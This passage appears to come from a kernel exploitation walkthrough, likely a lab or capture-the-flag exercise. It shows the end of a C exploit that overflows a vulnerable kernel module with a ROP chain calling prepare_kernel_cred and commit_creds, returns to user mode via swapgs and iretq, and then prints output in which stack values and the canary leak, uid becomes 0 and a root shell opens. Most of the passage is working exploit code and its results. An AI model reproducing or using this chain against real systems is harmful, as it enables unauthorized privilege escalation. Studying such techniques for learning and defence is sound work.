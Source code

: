 ```c
	payload[offset++] = pop_rdi;
	payload[offset++] = 0x0;
	payload[offset++] = prepare_kernel_cred;
	payload[offset++] = mov_rdi_rax_pop_rbp;
	payload[offset++] = 0x0;
	payload[offset++] = commit_creds;
    payload[offset++] = swapgs_pop_rbp;
	payload[offset++] = 0x0;
	payload[offset++] = iretq_pop_rbp;
    payload[offset++] = user_rip + 1;
	payload[offset++] = user_cs;
	payload[offset++] = user_rflags;
	payload[offset++] = user_sp;
	payload[offset++] = user_ss;

	puts("[*] Sending payload...");
	
	ssize_t w = write(kernel_fd, payload, sizeof(payload));

	puts("[!] This should never be reached");
}

int main() {
	save_state();
	open_ko_file();
	overflow();

	puts("[!] Something went wrong");
	return 0;
}

```

And just like that when you run it you get root!

```
/ $ ./exploit_one
[+] Saved state
[*] Opened module
[*] Leak at index 0: 0xffffffff81a29330
[*] Leak at index 1: 0x12
[*] Leak at index 2: 0x4470b02040fd00
[*] Leak at index 3: 0xffff88800689a410
[*] Leak at index 4: 0xffffc900001c7e68
[*] Leak at index 5: 0x4
[*] Leak at index 6: 0xffff88800689a400
[*] Leak at index 7: 0xffffc900001c7ef0
[*] Leak at index 8: 0xffff88800689a400
[*] Leak at index 9: 0xffffc900001c7e80
[*] Leak at index 10: 0xffffffff8184e047
[*] Leak at index 11: 0xffffffff8184e047
[*] Leak at index 12: 0xffff88800689a400
[*] Leak at index 13: 0x0
[*] Leak at index 14: 0x7ffc30eeb850
[*] Leak at index 15: 0xffffc900001c7ea0
[*] Leak at index 16: 0x4470b02040fd00
[*] Leak at index 17: 0xa0
[*] Leak at index 18: 0x0
[*] Leak at index 19: 0xffffc900001c7ed8
[*] Canary value: 0x4470b02040fd00
[*] Sending payload...
[*] uid: 0
[*] Spawning shell.
/ # id
```